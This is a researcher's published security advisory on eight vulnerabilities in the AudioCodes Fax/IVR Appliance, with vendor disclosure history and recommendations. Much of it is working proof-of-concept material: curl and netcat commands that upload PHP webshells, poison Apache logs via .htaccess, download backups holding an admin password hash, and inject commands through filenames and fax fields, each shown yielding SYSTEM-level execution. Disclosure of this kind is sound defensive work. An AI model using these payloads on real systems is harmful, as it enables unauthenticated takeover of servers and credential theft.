


AudioCodes' Fax Server (Fax to Mail and Mail to Fax) application is a powerful and flexible software application used to manage inbound fax calls and outbound mail-to-fax calls, delivering them efficiently to their correct destination.
Vulnerable versions: all versions.
The summary of the vulnerabilities is:
Miscellaneous notes:
The critical vulnerabilities have been confirmed to be present in the latest public version.
Other vulnerabilities I have also identified require authentication, therefore the security risk is considered low to medium:
NT AUTHORITY\SYSTEM in several ways;NT AUTHORITY\SYSTEM privileges, as file and directory permissions are insecure everywhere.Vulnerabilities #1, #2 #3 and #4 were shared with Audiocodes PSIRT but communication was almost nonexistent (see Report Timeline): AudioCodes PSIRT never provided any information or feedback, even with my regular follow-up emails. I also believe that this solution is EOL since December 31, 2024.
Vulnerabilities #5, #7 and #8 were discovered during an audit of an "unsupported" version of the AudioCodes Fax/IVR Appliance that was incorrectly patched. New unsupported versions were found in the vendor AWS S3 bucket that allows directory listing (https://downloads-audiocodes.s3.eu-central-1.amazonaws.com/) - this bucket is used by the vendor to distribute some of its solutions. Surprisingly, the root causes were not addressed and the vulnerabilities #1 through #4 were still present. Vulnerability #6 was simply discovered during the creation of this security advisory to illustrate insecure permissions.
I didn't spend much time analyzing this solution (installation took 10 minutes and the first pre-auth RCE was found in about 5 minutes), but the existing PHP code presents a considerable attack surface.
Regarding the security status of this product, it is also quite surprising to find no public CVEs. I assume this solution has never been audited.
Unfortunately, the vendor has not followed their official security vulnerability handling. AudioCode's PSIRT team has not responded, and security advisories have not been published.
Additionally, It is also worth noting that Audiocodes Session Border Controllers (SBCs) were quietly patched in 2024 to address the misfortune cookie vulnerability (CVE-2014-9222). This exploit was tested on the Median Virtual Edition and Mediant 800 SBCs.
kali% curl -kv --header 'Cookie: C1012213=1' https:///192.168.0.2/
-> /acBin/TPApp will segfault in the remote appliance/ARM device
No security bulletins were found regarding this silently patched vulnerability and it is recommended to use the latest firmware version of Audiocodes Session Border Controllers.
Impacts
An attacker can compromise AudioCodes Fax/IVR Appliance without authentication and move laterally in the telecom and IT infrastructure.
An attacker can compromise outdated AudioCodes Session Border Controllers with the misfortune cookie vulnerability.
Recommendations
Do not use AudioCodes Fax/IVR Appliance.
Do not expose the AudioCodes Fax/IVR Appliance to the network.
Use secure permissions.
Remove vulnerable webpages.
Update Audiocodes Session Border Controllers.
The latest solution (AudioCodes Fax/IVR Appliance Installer, Version 2.6.230.000) can be found at:

The vulnerability is located in the C:\F2MAdmin\F2E\AudioCodes_files\utils\IVR\diagram\ajaxScript.php PHP file. This file allows an attacker to upload files without authentication.
Content of C:\F2MAdmin\F2E\AudioCodes_files\utils\IVR\diagram\ajaxScript.php:
1 <?php 2 $dir = dirname(dirname(__FILE__)); 3 require_once $dir.'/classes/SystemStatus.class.php'; 4 5 //$scriptName = $_REQUEST['scriptName']; 6 $action = isset($_REQUEST["action"]) ? $_REQUEST["action"] : ""; 7 8 if(!empty($action)){ 9 if($action == 'getScripts'){ [...] 26 } 27 else if($action == 'saveScript'){ 28 $scriptValue = $_POST['value']; // [1] - attacker-controlled value 29 $scriptName = $_POST['name']; // [2] - attacker-controlled value 30 31 $systemStatus = new SystemStatus(); 32 $sysInfo = $systemStatus->GetSysInfo(); 33 $path = $sysInfo[SystemStatus::SCRIPTS_DIR]; 34 35 $ok = 'false'; 36 $ok = file_put_contents($path."/".$scriptName, $scriptValue); // [3] - insecure file write with attacker-controlled values 37 if($ok === true){ 38 $ok = 'true'; 39 } 40 ob_clean(); 41 echo ($ok); 42 die; 43 } 44 }
As shown in the source code, there is no authentication.
Without authentication, a remote attacker can access line 36 to write any file under NT AUTHORITY\system (Apache runs as NT AUTHORITY\system) because all the arguments for the file_put_contents() function are under attacker's control.
A PoC is provided below. A webshell is uploaded and a command is executed:
kali% curl -kv "http://10.105.0.239:8090/AudioCodes_files/utils/IVR/diagram/ajaxScript.php?action=saveScript" -d "name=F2MAdmin/F2E/webshell4.php&value=<?php system(\$_GET['c']);?>"
* Trying 10.105.0.239:8090...
* Connected to 10.105.0.239 (10.105.0.239) port 8090
* using HTTP/1.x
> POST /AudioCodes_files/utils/IVR/diagram/ajaxScript.php?action=saveScript HTTP/1.1
> Host: 10.105.0.239:8090
> User-Agent: curl/8.13.0
> Accept: */*
> Content-Length: 65
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 65 bytes
< HTTP/1.1 200 OK
< Date: Mon, 26 May 2025 14:44:38 GMT
< Server: Apache/2.4.62 (Win32) OpenSSL/3.1.7 PHP/8.1.31
< X-Powered-By: PHP/8.1.31
< Set-Cookie: PHPSESSID=301ccae912e0c2aee878361e74d5bb30; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Content-Length: 2
< Content-Type: text/html; charset=UTF-8
<
* Connection #0 to host 10.105.0.239 left intact
%
kali% curl "http://10.105.0.239:8090/webshell4.php?c=whoami"
nt authority\system
kali%
The resulting commands will be executed as NT AUTHORITY\system (meaning full control of the remote server without authentication).
If the SystemStatus::SCRIPTS_DIR variable (used for the $path variable in line 33) is set to a specific directory, the attacker can simply specify name=/../../../../../../../F2MAdmin/F2E/webshell4.php as a path traversal in the HTTP request to traverse the directory and write the webshell in the C:\F2MAdmin\F2E\ directory (corresponding to the DocumentRoot directory).
The C:\F2MAdmin\F2E\AudioCodes_files\ajaxBackupUploadFile.php PHP script does not implement authentication, allowing any remote attacker to upload any file and overwrite any backup file in the default backup folder (default is C:\).
Content of C:\F2MAdmin\F2E\AudioCodes_files\ajaxBackupUploadFile.php:
1 <?php 2 require_once 'utils/IVR/classes/IvrBackup.class.php'; 3 require_once 'utils/IVR/IvrRestUtil.php'; 4 require_once 'utils/IVR/diagram/constants.php'; 5 6 $ivrBackup_ins = new IvrBackups(); 7 $target_path = $ivrBackup_ins->GetBackupFolderPath()."\\"; 8 9 10 //$target_path = "C:\\F2MAdmin\\tmp\\"; 11 12 if(!is_dir($target_path)) 13 mkdir($target_path, 0777, true); 14 /* Add the original filename to our target path. 15 Result is "uploads/filename.extension" */ 16 $target_path = $target_path . basename( $_FILES['fileToUpload']['name']); 17 if(move_uploaded_file($_FILES['fileToUpload']['tmp_name'], $target_path)) { 18 echo "The file ". basename( $_FILES['fileToUpload']['name']). 19 " has been uploaded."; 20 } else{ 21 echo "There was an error uploading the file, please try again!"; 22 } 23 die;
Exploitation is explained below:
1. With /AudioCodes_files/ajaxBackupUploadFile.php, upload of a .htaccess file in C:\ containing this line:
php_value auto_prepend_file C:/Apache24/logs/access.log
You can also skip step 2 and directly include a base64-encoded PHP webshell inside the .htaccess file with auto_prepend_file = "data:;base64,BASE64(webshell)" but it will probably be detected and blocked by any EDR.
2. Apache logs will be used to store a PHP webshell by requesting /OUTPUT:<?php system($_GET['c']);?> (this is an invalid HTTP request as we do not want to URL-encode the space into %20). The OUTPUT keyword is used to filter the interesting part of the resulting webpages in step 3 since the answer will also contain some HTML tags and JavaScript code.
3. Getting Remote Code Execution by reaching any PHP page because the C:\Apache24\logs\access.log file will now be appended and it contains a PHP webshell.
PoC:
kali% curl -F "fileToUpload=php_value auto_prepend_file C:/Apache24/logs/access.log;filename=.htaccess" http://10.105.0.239:8090/AudioCodes_files/ajaxBackupUploadFile.php
The file .htaccess has been uploaded.
kali% echo "OUTPUT:<?php system(\$_GET['c']);?>" | nc -v 10.105.0.239 8090
10.105.0.239: inverse host lookup failed: Unknown host
(UNKNOWN) [10.105.0.239] 8090 (?) open
HTTP/1.1 400 Bad Request
Date: 26 May 2025 14:54:31 GMT
Server: Apache/2.4.62 (Win32) OpenSSL/3.1.7 PHP/8.1.31
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
kali%
kali% curl -s 'http://10.105.0.239:8090/?c=whoami' | grep OUTPUT
10.105.0.238 - - [26/May/2025:14:54:34 -0700] "OUTPUT:nt authority\system
kali% curl -s 'http://10.105.0.239:8090/?c=dir' | grep -A 10 OUTPUT
10.105.0.238 - - [26/May/2025:14:54:39 -0700] "OUTPUT: Volume in drive C has no label.
Volume Serial Number is DECE-1ED7
Directory of C:\F2MAdmin\F2E
05/26/2025 07:37 AM <DIR> .
05/26/2025 07:37 AM <DIR> ..
08/22/2023 12:37 PM 13,964 agent.php
08/22/2023 12:37 PM 342 agentLogout.php
08/22/2023 12:37 PM 27,611 AudioCodes.php
05/26/2025 07:40 AM <DIR> AudioCodes_files
kali%
The C:\F2MAdmin\F2E\AudioCodes_files\utils\IVR\diagram\ajaxPromptUploadFile.php PHP script does not implement authentication, allowing any remote attacker to upload any file in C:\F2MAdmin\tmp.
PoC:
kali% curl -F "fileToUpload=test;filename=test2.txt" http://10.105.0.239:8090/AudioCodes_files/utils/IVR/diagram/ajaxPromptUploadFile.php
The file test2.txt has been uploaded
kali%
The resulting file will be stored in C:\F2mAdmin\tmp.
The C:\F2MAdmin\F2E\AudioCodes_files\download.php PHP script does not implement authentication.
This script allows to download files stored in the appliance depending on the authorized extensions (e.g., zip, txt, c2v, ...).
This vulnerability allows an attacker to download the backup files and compromise the server since they contain hashes of users.
The format of the backup filename can be easily guessed (BACKUP_Day_DD_Month_YY_HH_MM_SS.zip).
PoC:
kali% curl 'http://10.105.0.239:8090/AudioCodes_files/download.php?baseDir=C:\F2MAdmin\backup\&f=BACKUP_Mon_26_May_25_20_23_42.zip' --output BACKUP_Mon_26_May_25_20_23_42.zip
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 3739 100 3739 0 0 139k 0 --:--:-- --:--:-- --:--:-- 140k
kali% 7z l BACKUP_Mon_26_May_25_20_23_42.zip
7-Zip 24.09 (x64) : Copyright (c) 1999-2024 Igor Pavlov : 2024-11-29
64-bit locale=en_US.UTF-8 Threads:8 OPEN_MAX:1024, ASM
Scanning the drive for archives:
1 file, 3739 bytes (4 KiB)
Listing archive: BACKUP_Mon_26_May_25_20_23_42.zip
--
Path = BACKUP_Mon_26_May_25_20_23_42.zip
Type = zip
Physical Size = 3739
Date Time Attr Size Compressed Name
------------------- ----- ------------ ------------ ------------------------
2025-05-26 10:23:42 ..... 5120 402 dbcdr.db
2025-05-26 10:23:44 ..... 455 154 ErrorLog.txt
2025-05-26 10:23:42 ..... 73728 2484 f2e.db3
2025-05-26 10:23:44 ..... 678 209 log.txt
2025-05-26 10:23:44 ..... 2 2 ovoc.json
------------------- ----- ------------ ------------ ------------------------
2025-05-26 10:23:44 79983 3251 5 files
kali% unzip BACKUP_Mon_26_May_25_20_23_42.zip
Archive: BACKUP_Mon_26_May_25_20_23_42.zip
inflating: dbcdr.db
inflating: ErrorLog.txt
inflating: f2e.db3
inflating: log.txt
extracting: ovoc.json
kali% sqlite3 f2e.db3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .dump
[...]
INSERT INTO ADMIN VALUES(1,'Admin','e3afed0047b08059d0fada10f400c1e5',NULL,NULL,0,1);
[...]
Some batch files are executed as NT AUTHORITY\system with the system() function. Unfortunately, these batch files can be overwritten by local users due to insecure permissions.
Content of C:\F2E\AudioCodes_files\ajaxPost.php:
1 <?php [...] 132 $cmd = "cmd /c "."C:\\F2MAdmin\\F2E\\AudioCodes_files\\utils\\Services\\"; 133 $stop = $cmd."stop.bat"; 134 $start = $cmd."start.bat"; 135 $restart = $cmd."restart.bat"; 136 if($serviceName == Services::FAX_SERVER_NAME || $serviceName == Services::FAX_ENGINE_NAME){ 137 if($action != Actions::START ){ 138 system($stop.' "'.Services::FAX_SERVER_NAME.'"'); 139 if($serviceName == Services::FAX_ENGINE_NAME) 140 system($stop.' "'.Services::FAX_ENGINE_NAME.'"'); 141 } 142 if($action != Actions::STOP){ 143 system($start.' "'.Services::FAX_ENGINE_NAME.'"'); // start always 144 system($start.' "'.Services::FAX_SERVER_NAME.'"');
These files can be modified by any user on the server, allowing them to obtain NT AUTHORITY\SYSTEM privileges:

Using icacls:
C:\F2MAdmin\F2E\AudioCodes_files\utils\Services> icacls *
restart.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
RestartBlade.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
RestartEmail.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
RestartFaxReceiver.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
RestartService.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
RestartWatchdog.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
Service.class.php BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
ServicesKeys.class.php BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
start.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
startCommetrex.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
startService.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
startService1.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
startService2.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
stop.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
stopCommetrex.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
stopService.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
stopService1.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
stopService2.bat BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
y.txt BUILTIN\Administrators:(I)(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Users:(I)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
Successfully processed 19 files; Failed processing 0 files
The DocumentRoot directory C:\F2MAdmin\F2E can be modified by any user due to insecure permissions.
PoC - a webshell will be executed as NT AUTHORITY\SYSTEM:
Microsoft Windows [Version 10.0.19043.928]
(c) Microsoft Corporation. All rights reserved.
C:\Users\testuser>whoami
desktop-to41lr8\testuser
C:\Users\testuser>icacls C:\F2MAdmin\F2E
C:\F2MAdmin\F2E BUILTIN\Administrators:(I)(OI)(CI)(F)
NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
BUILTIN\Users:(I)(OI)(CI)(RX)
NT AUTHORITY\Authenticated Users:(I)(M)
NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files
C:\Users\testuser>echo "<?php system('whoami');?>" > C:\F2MAdmin\F2E\a.php
C:\Users\testuser>curl http://127.0.0.1:8090/a.php
"nt authority\system
"
C:\Users\testuser>
I haven't performed a comprehensive analysis, but additional Local Privilege Escalation vulnerabilities likely exist.
In order to test the Fax configurattion, a batch file with attacker-controlled value will be created and then executed. Variables are not sanitized and can be used to execute additional malicious commands.
Content of C:\F2E\AudioCodes_files\TestFax.php:
1 <?php [...] 10 $FromNumber = isset($_REQUEST["FromNumber"]) ? trim($_REQUEST["FromNumber"]) : ''; 11 $ToNumber = isset($_REQUEST["ToNumber"]) ? trim($_REQUEST["ToNumber"]) : ''; 12 $src_ip = isset($_REQUEST["src_ip"]) ? trim($_REQUEST["src_ip"]) : ''; 13 $action = isset($_REQUEST["action"]) ? trim($_REQUEST["action"]) : ''; [...] 32 if(strcmp($action,"send")==0) 33 { 34 require_once 'utils/Global/GlobalUtils.class.php'; 35 36 $command = "C:\\progra~2\\Commetrex\\otf\\bin\\faxsender -u sip:$ToNumber@$src_ip -f test_web_fax.tif -o mulaw -a T38 -c sip:$FromNumber@$src_ip -t"; 37 GlobalUtils::RunBatchFile($command);
The batch file containing the command will be written inside the C:\F2MAdmin\run directory and then executed by accessing a network service without authentication:
http://localhost:9437/f2mw-service-api/?method=runBatch&fileName=tmp_1754486471_37.bat
An authenticated attacker can use variables containing malicious commands with & or newline characters - the additional commands will be executed as NT AUTHORITY\system.
A local user can simply edit these files to inject malicious commands due to insecure permissions.
The C:\F2MAdmin\F2E\AudioCodes_files\ActivateLicense.php PHP script allows to upload a license file.
When a license file containing a specific malicious extension is uploaded, this extension will be included in a command executed as NT AUTHORITY\system. There is no sanitization, so an attacker can upload test.ext&command_to_execute to execute command_to_execute as NT AUTHORITY\system:
The execution flow is:
$original_file (under the attacker's control, this is the name of the uploaded file) -> $ext -> $newfile -> $target_path -> $params and then exec($params).
Content of C:\F2MAdmin\F2E\AudioCodes_files\ActivateLicense.php:
1 <?php 104 $c2vdir = "C:/temp/"; [...] 242 $utime=time(); 243 244 $uday= date('d'); 245 $umonth= date('m'); 246 $uyear= date('y'); 247 248 $udate=$umonth.$uday.$uyear; 249 250 $filename="a".$udate.$utime; 251 252 253 $target_path = $c2vdir; [...] 257 $original_file = basename($_FILES['uploadedfile']['name']); 258 259 $pos = strpos($original_file,".",0); 260 $ext = trim(substr($original_file,$pos+1,strlen($original_file))," "); 261 262 $newfile = $filename . "." . $ext; 263 264 $target_path = $target_path . basename($newfile); [...] 269 $params = "--active -i ".$target_path; 270 $res = exec ("C:\\F2MAdmin\\F2E\\external\\fax_server_lic_cmdline.exe ".$params,$resArr);
The generated filename is made of 'a', the MMDDYY values, the current Unix time and the extension.
For example, if the filename used during the upload ($_FILES['uploadedfile']['name']) is set to test.php&dir, the $params variable will be set to --active -i C:/temp/a0917251758121909.php&dir.
dir will be executed as NT AUTHORITY\system on line 270.
These vulnerabilities were found by Pierre Barre aka Pierre Kim (@PierreKimSec).
https://pierrekim.github.io/blog/2025-11-20-audiocodes-fax-ivr-8-vulnerabilities.html
https://pierrekim.github.io/advisories/2025-audiocodes-fax-ivr.txt
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
The source code snippets in this security advisory are the intellectual property of Audiocodes and used to explain the root causes of the vulnerabilities.
published on 2025-11-20 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>